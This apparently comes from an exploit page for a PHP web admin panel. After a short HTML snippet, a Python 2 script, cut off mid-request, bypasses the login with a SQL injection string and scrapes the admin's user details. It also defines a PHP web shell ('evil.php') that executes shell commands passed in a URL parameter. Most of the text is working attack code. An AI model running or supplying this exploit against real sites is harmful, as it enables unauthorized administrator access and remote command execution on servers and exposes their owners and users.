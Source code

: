 ```html
  <link rel="stylesheet" href="/management/plugins/datatables-buttons/css/buttons.bootstrap4.min.css">
   <!-- Select2 -->
  <link rel="stylesheet" href="/management/plugins/select2/css/select2.min.css">
```

# Exploit

```python
#!/usr/bin/env python2
import requests
import time
from bs4 import BeautifulSoup

print ("\nExample: http://example.com\n")

url = raw_input("Url: ")
payload_name = "evil.php"
payload_file = "<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>"

if url.startswith(('http://', 'https://')):
    print "Check Url ...\n"
else:
    print "\n[?] Check Adress\n"
    url = "http://" + url

try:
    response = requests.get(url)
except requests.ConnectionError as exception:
    print("[-] Address not reachable")
    sys.exit(1)

session = requests.session()

request_url = url + "/classes/Login.php?f=login"
post_data = {"username": "'' OR 1=1-- '", "password": "'' OR 1=1-- '"}
bypass_user = session.post(request_url, data=post_data)


if bypass_user.text == '{"status":"success"}':
    print ("[+] Bypass Login\n")
    cookies = session.cookies.get_dict()
    req = session.get(url + "/admin/?page=user")
    parser = BeautifulSoup(req.text, 'html.parser')
    userid = parser.find('input', {'name':'id'}).get("value")
    firstname = parser.find('input', {'id':'firstname'}).get("value")
    lastname = parser.find('input', {'id':'lastname'}).get("value")
    username = parser.find('input', {'id':'username'}).get("value")

    request_url = url + "/classes/Users.php?f=save"
    headers = {"sec-ch-ua": "\";Not A Brand\";v=\"99\", \"Chromium\";v=\"88\"", "Accept": "*/*", "X-Requested-With": "XMLHttpRequest", "sec-ch-ua-mobile": "?0", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryxGKa5dhQCRwOodsq", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Dest": "empty", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
```